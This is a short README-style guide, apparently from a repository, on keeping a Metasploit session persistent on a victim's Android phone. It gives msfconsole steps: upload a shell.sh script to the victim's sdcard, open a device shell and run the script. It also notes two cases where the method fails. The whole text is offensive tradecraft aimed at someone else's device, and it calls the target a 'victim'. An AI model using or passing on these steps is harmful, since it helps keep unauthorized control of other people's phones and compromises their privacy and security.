 # Persistent
Steps
Upload this in your victims sdcard by the following command in msfconsole after the session has been opened.
upload /path/to/shell.sh /sdcard
Access device shell by command
shell
Wait for it to connect
Change directory to sdcard by command
cd sdcard
Run the shell script by command
shell.sh
voila

Note that this does not work when
>The app is hidden from launcher by command hide_app_icon
>When the payload is embedded.

